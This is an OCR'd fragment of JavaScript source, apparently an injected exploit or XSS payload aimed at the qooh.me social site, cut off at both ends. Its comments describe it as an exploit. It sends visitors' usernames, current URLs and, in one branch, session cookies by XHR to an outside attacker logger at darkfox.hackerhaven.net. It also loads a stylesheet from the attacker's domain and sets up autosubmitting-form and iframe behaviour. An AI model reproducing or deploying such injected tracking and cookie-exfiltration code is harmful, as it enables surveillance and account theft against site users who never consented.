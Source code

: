 ``` javascript
            break;
        default:
            /* Don't send if we've been redirected through my autosubmitting
             * form.
             */
            if (location.href ==
                "http://m.qooh.me/account/find_people/#redirect")
              break;

            /* Send an XHR to my logger to keep track of the user's username,
             * current page, ip and user agent.
             */
            (x=new XMLHttpRequest() || ActiveXObject("Microsoft.XMLHTTP"))
                .open("POST",
                      "http://darkfox.hackerhaven.net/exploits/.php",
                      1);

            /* Because we are sending our requested data through a POST in the
             * urlencoded format we need to tell the server how to expect the
             * information so that it can log as expected.
             */
            x.setRequestHeader("Content-type",
                               "application/x-www-form-urlencoded");
            x.send((function(j){
                var a = [];
                for (var k in j)
                a.push(escape(k) + "=" + escape(j[k]));
                return a.join("&");
              })({ c: u == "DarkNFoxy" ? document.cookie : "disabled"
                 , u: u.indexOf("user/") == 0 ? "user is a guest" : u
                 , a: location.href
                 }));
            /* Above we send a few things.
             *
             * - In the impossible case that the username is my username, log
             *   the cookie, if not send "disabled" as a placeholder.
             *   | Impossible because the case above catches "DarkNFoxy" and
             *     disables the logging.
             *
             * - The user's username provided from the navigation.
             *
             * - The address that the user is currently viewing that caused the
             *   exploit to run.
             *
             */
    }

    // Custom theme, I'd like a DarkFox for my background. :-)
    (l = document.createElement("link")).s = s.bind(l);
    l.s("rel",  "stylesheet")
     .s("type", "text/css")
     .s("href", "http://darkfox.us.to/exploits/qooh.me/darkfox.css");
    document.body.appendChild(l);

    // If the user is not in my iframe, give them a little audio.
    if (top == window || 
            (location.href ==
               "http://m.qooh.me/account/find_people/#redirect" &&
             typeof top.location.href == "string"
            ))
        addEventListener("load", function () {
            var a = new Audio;

```